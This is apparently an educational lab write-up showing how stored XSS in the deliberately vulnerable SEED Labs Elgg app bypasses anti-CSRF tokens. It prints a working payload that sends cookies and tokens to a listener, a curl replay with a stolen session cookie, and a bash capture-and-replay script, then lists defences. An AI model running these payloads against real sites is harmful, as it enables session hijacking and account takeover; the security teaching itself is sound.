


## Overview

Cross-site request forgery (CSRF) lets an attacker make a victim's browser send an authenticated request to a site the victim is logged into. The standard defence is a **random anti-CSRF token**: the server embeds an unpredictable value in each form, and rejects any state-changing request that doesn't echo it back. Because a malicious third-party site can't read the token out of the target page, it can't forge a valid request.

That defence rests on one assumption: the attacker cannot read the contents of the page. A **cross-site scripting (XSS)** vulnerability breaks exactly that assumption. If I can run JavaScript in the victim's session, I can read the token straight out of the DOM, grab the session cookie, and send a fully valid request as the victim.

This post walks through that chain end to end on the [SEED Labs](https://seedsecuritylabs.org/) Elgg web application (`xsslabelgg.com`), a deliberately vulnerable social-networking platform used for security education. The goal: bypass Elgg's anti-CSRF token protection even though it is switched on.

> **Scope and ethics.** This was carried out entirely inside the self-contained SEED Labs VM against a target I control. Elgg is intentionally vulnerable for teaching. Never run any of this against systems you don't own or have explicit written permission to test.

## Why the token normally wins

Elgg protects its actions with two values, `__elgg_ts` (a timestamp) and `__elgg_token` (a secret derived from it). Every state-changing request, such as adding a friend or editing a profile, must carry a matching pair, or the server rejects it.

A plain CSRF attack hosted on an attacker's website fails here: the attacker's page can submit a request and the browser will attach the victim's Elgg cookies automatically, but the attacker has no way to know the current `__elgg_ts` / `__elgg_token` pair, so the request is dropped.

The key insight is that the tokens are only unknowable *to a different origin*. Elgg exposes them to its own pages through a JavaScript object:

```javascript
elgg.security.token.__elgg_ts
elgg.security.token.__elgg_token
```

So if my code is running **in the Elgg origin**, via an XSS flaw, those values are right there for the taking, along with `document.cookie`.

## The attack chain

I need three things to replay an authenticated action as the victim:

1. the victim's session cookie (`document.cookie`),
2. the current `__elgg_ts`, and
3. the matching `__elgg_token`.

The plan is to plant a script in a stored XSS sink (the victim's profile "About me" field is a classic one in this lab). When any logged-in user views the profile, their browser runs my script, which reads all three values and ships them to a listener I control.

### Step 1: the exfiltration payload

This script runs in the victim's session when they load the booby-trapped profile. It collects the cookie, GUID, and both tokens, then POSTs them to my listener. The `samyGuid` guard just stops the payload from firing on the attacker's own account.

```javascript
<script type="text/javascript">
window.onload = function () {
  var cookies = "&cookies=" + document.cookie;
  var guid    = "&guid="    + elgg.session.user.guid;
  var ts      = "&__elgg_ts="    + elgg.security.token.__elgg_ts;
  var token   = "&__elgg_token=" + elgg.security.token.__elgg_token;

  var sendurl = "http://127.0.0.1:5555?";       // attacker-controlled listener
  var content = token + ts + cookies;
  var samyGuid = 47;

  if (elgg.session.user.guid != samyGuid) {
    var Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
  }
};
</script>
```

I point the listener at `127.0.0.1` here because attacker and victim are the same VM in this lab; in a real scenario this would be an attacker-controlled host.

### Step 2: catch the values

On the attacker side I listen with netcat. When a victim views the profile, their browser hands me everything:

```shell
nc -l 5555
```



The captured request contains the live `__elgg_token`, `__elgg_ts`, and the `Elgg=...` session cookie, exactly the three things the token defence was supposed to keep out of my hands.

### Step 3: replay the action

With the tokens and cookie in hand, I can now forge any authenticated request. The `-b` flag replays the stolen session cookie:

```shell
curl -X GET "http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1683154838&__elgg_token=mrCgCLGubQEEZNxEZuisyA" \
  -b "Elgg=38b7qpkmnlhth9qj1fnikjogr2"
```

Because the request carries a valid token pair *and* the victim's cookie, Elgg treats it as a legitimate action from the victim and adds the attacker as a friend.



## Automating it

Doing Step 3 by hand means copy-pasting tokens out of the listener for every request. I wrapped the capture-and-replay loop in a small script: it listens on the port, extracts the three fields with regular expressions, and fires the forged request automatically.

```bash
#!/bin/bash

input=$(nc -l 5555)

token=$(echo "$input"  | grep -Po '__elgg_token=[^&]+' | cut -d '=' -f 2)
ts=$(echo "$input"     | grep -Po '__elgg_ts=[^&]+'    | cut -d '=' -f 2)
cookie=$(echo "$input" | grep -Po 'cookies=[^&]+'      | cut -d '=' -f 2,3)

url="http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=$ts&__elgg_token=$token"

curl -X GET "$url" -b "$cookie"
```

```shell
chmod +x exploit.sh
./exploit.sh
```

Now anyone who views the attacker's profile automatically sends a friend request back, with the anti-CSRF token protection still enabled. Swapping the `friends/add` action for any other Elgg action (editing a profile, changing a password) turns this single payload into a general-purpose "do anything as the victim" primitive, because I'm holding their session cookie.

## Takeaways

- **Anti-CSRF tokens are not a substitute for fixing XSS.** The token defence assumes the attacker can't read the page. XSS invalidates that assumption completely, and once script runs in your origin, same-origin anti-CSRF measures offer no protection.
- **Defence in depth matters.** Proper output encoding / input sanitisation to prevent XSS, `HttpOnly` cookies so script can't read the session cookie, and `SameSite` cookie attributes each cut a different link in this chain. Relying on CSRF tokens alone leaves the whole thing exploitable.
- **Think in capabilities, not bugs.** On its own, a stored XSS flaw "just" runs JavaScript. Combined with how Elgg exposes its tokens, it escalates into full session takeover. Chaining is where the real impact lives.

*Lab environment: SEED Labs Ubuntu VM, Elgg (`xsslabelgg.com`), anti-CSRF token countermeasure enabled.*
